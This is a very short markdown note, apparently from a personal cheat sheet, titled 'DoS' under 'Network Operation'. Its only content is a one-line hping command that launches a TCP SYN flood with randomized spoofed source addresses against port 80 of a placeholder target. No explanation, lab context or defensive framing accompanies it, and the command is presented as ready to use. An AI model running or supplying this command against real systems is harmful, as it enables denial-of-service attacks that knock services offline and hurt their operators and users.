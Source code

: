 title: DoS
category: Network Operation
time: 1470000000000
---
#### TCP SYN Flood

```
hping -i u1 --rand-source -S -p 80 <target>
```
